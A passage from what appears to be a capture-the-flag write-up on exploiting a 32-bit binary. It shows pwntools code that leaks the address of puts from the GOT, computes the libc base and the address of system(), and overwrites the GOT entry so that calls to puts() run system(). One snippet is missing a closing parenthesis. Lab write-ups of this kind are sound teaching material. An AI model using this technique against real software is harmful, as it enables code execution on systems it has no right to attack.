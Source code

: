 ```text
└────────────────────────────────────────────┘  

```

The next bit of data will leak a pointer to `puts` from the GOT, so we clear all data until a `"("` appears, from the line:

```c {linenos=table, linenostart=26}
    printf("Message from %s: (%s)\n", student.name, student.message);
```

After that character, the next four bytes will be the REAL address of `puts` in libc.

```python
# Receive data until we get the open colon
io.recvuntil(b"(")

# Receive exactly four bytes of leaked data
got_puts = io.unpack()
info("puts@GOT == %#x" % got_puts)
io.clean()
```

### GOT Overwrite Details

Based on this address, we can load the same copy of libc as used by out target binary, find the OFFSET of `puts`, and use that to calculate the ACTUAL base address of `libc.so`.

With the real loaded address of libc set in `libc.address`, the address for `libc.symbols.system` is automatically updated, and we can use this to overwrite `puts` in the Global Offset Table.  From here forward, all calls to `puts()` will instead call `system()`

```python
# Calculate the base address of libc so we can calculate system()
libc = context.binary.libc
libc.address = got_puts - libc.symbols.puts
info("libc == %#x", libc.address

# Calculate system()
system = libc.symbols.system
info("system == %#x", system)
```

All that's left to do is to send the address of `system` which is read by the second call to `read` at 

```c {linenos=table, linenostart=30}
    read(0, student.message, 4);
```

And we can use `io.pack` to automatically convert it from an integer to a packed 32-bit value.

```python
io.pack(system)
```

The overwrite effectively replaces the GOT pointer for `puts` with `system`.  Note that "leak" is now "write 4".
